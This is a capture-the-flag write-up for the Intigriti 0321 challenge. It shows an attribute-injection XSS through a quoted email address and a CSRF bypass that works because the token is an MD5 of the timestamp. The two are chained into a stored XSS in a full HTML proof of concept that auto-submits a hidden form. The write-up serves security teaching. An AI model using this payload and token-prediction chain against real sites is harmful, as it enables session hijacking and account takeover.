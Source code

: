 # Intigriti 0321 Challenge Writeup

First of all , how the website work is the website has notes that take input. Our input has generated to the `<p>` tag. I have entered html tags like `<script> , <h1>,` etc..
and it encoded all the html tags.  
  When I entered the notes as `https://google.com` , the response come with `<a>` tag. I tried to escape from the `<a>` tag and still it 
didn't work.  
  Then , I tried with `mgthura@test.com` it converted to `<a>` tag again.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit.PNG?raw=true)
  I tested to break out the <a> tag again with the payload `"mgthura"@test.com`.  
  The response
come with `<a href="mailto:" mgthura"@test.com"="">"mgthura"@test.com</a>` showing that  we've successfully injected to the tag. Still we can't use to escape from the <a> tag
just adding some event so the new payload will be `"onmouseenter=alert('flag{THIS_IS_THE_FLAG}');"@test.com`  
  By entering the new payload,
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit2.PNG?raw=true)
  It was still a self xss. The challenge said it can't be self xss.
  So we need to chain csrf to get a stored xss. I checked the csrf token and anaylsing which hash it is , seem to be md5 hash.
  Look at the first photo again, see what it is written with comment tag.  
  `<!-- page generated at 2021-03-29 12:38:35 -->`  
  By changing the time to timestamp , I got the digits `1617020646` and encrypting to md5.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/md5.PNG?raw=true)  
  Hence , we now how to bypass CSRF it's time to make a POC.  
    
  The csrf works liken when you open the page it will generate a token and you need to make a request with that generated token. So we've to open a new page in POC or by using iframe.
  ```<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js" integrity="sha512-Hmp6qDy9imQmd15Ds1WQJ3uoyGCUz5myyr5ijainC1z+tP7wuXcze5ZZR3dF7+rkRALfNy7jcfgS5hH8wJ/2dQ==" crossorigin="anonymous"></script>
<script>
function go(){
let w = window.open("https://challenge-0321.intigriti.io/",'');
setTimeout(function(){w.close();trigger();csrf.submit()},1000)
}
</script>

<h1 onclick=go()>Click me</h1>
<form name=csrf style="display:none" action="https://challenge-0321.intigriti.io/" method="POST">
<input id="csrfToken" type="hidden" name="csrf" value="" />
<input type="hidden" name="notes" value="&quot;onmouseenter=alert(&#39;flag{THIS_IS_THE_FLAG}&#39;);&quot;@test.com" />
<input type="submit" onclick="trigger()" value="Submit request" />
</form>
<script>

var d2 = Date.now();
console.log(d2);
let csrftoken = document.getElementById("csrfToken");

let trigger = () => {
let date = Date.now();
date = Math.floor(date / 1000)
hash = md5(date);
csrftoken.value = hash
console.log(date);
}
</script>
</body>

</html>
```
## Explantation of POC
First , I called a javascript that will encrypt the value to md5
`https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js`.  
The another script tag is opening a new window and submitting the request. The form is CSRF request , the last script is I take current timestamp with `Date.now()`.  
The timestamp includes millisecond and don't need it so removed by dividing 1000 for the decimal value I used Math.floor to remove that.
Now encrypt it with md5 , finally we got the csrf value.
Still the script is right but sometime it late a second when we hash the value. I asked  help from my friend to become a better script.  
You have to allow pop-up to use this script. https://raw.githubusercontent.com/mgthuramoemyint/mgthura/gh-pages/final.html
![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/2021-03-29%2020-07-56.gif?raw=true)
